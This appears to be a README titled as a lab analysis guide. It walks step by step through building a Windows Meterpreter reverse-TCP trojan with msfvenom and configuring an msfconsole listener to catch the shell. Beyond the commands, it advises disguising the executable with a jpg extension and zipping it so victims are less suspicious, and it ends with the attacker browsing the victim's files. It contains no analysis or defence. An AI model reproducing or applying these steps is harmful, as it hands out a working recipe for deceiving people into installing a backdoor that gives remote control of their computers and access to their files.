









# Trojan Executable Analysis Guide

**This documentation will simulate the Metasploit Framework, with msfvenom to create a payload and msfconsole to configure the listener, showing how a trojan file can establish remote access in a controlled lab environment.**

On your kali linux vm go into the terminal and type msfvenom. This will be the technique used to create the exe.

Use the command "msfvenom -l payload" and there you will look for the directory windows/meterpreter/reverse_tcp. This directory creates a Windows program that will connect back to the attacker's computer over TCP. This gives the attacker a hidden remote shell to control the system.

-   After finding the directory type the command, "msfvenom -p windows/meterpreter/reverse_tcp LHOST=\<IP\> LPORT=4444 -f exe -o happy.exe" This will create the trojan and add the exe in the folder.

-   It's important to rename the file with a valid extension (jpg) so it appears less suspicious, since Windows usually hides the extension.

-   ****For this process make sure to add the exe in a zip file!**

-   The trojan is now created.

-   To create a listener for the payload when executed use the msfconsole command. Msfconsole is a CLI of the Metasploit Framework. It is used to configure exploits, payloads, and handlers for penetration testing.

-   After starting the console type, "use exploit/multi/handler." This module acts as a listener for incoming sessions.

-   Use the command "set payload windows/meterpreter/reverse_tcp" to match the one generated with msfvenom.

-   With this setup, the handler is ready to receive a reverse connection once the payload is executed on the target system.

-   Set the host to your Ip using "set LHOST \<IP\>"

-   To make sure the IP is confirmed type options and there you will see the communication settings including the IP you typed to host.

-   When the victim runs the file, it starts a session back to the attacker, creating a reverse connection that allows remote access to the target system.

-   Here is a screenshot where the attacker opens the system directory and can access all the user's system files.
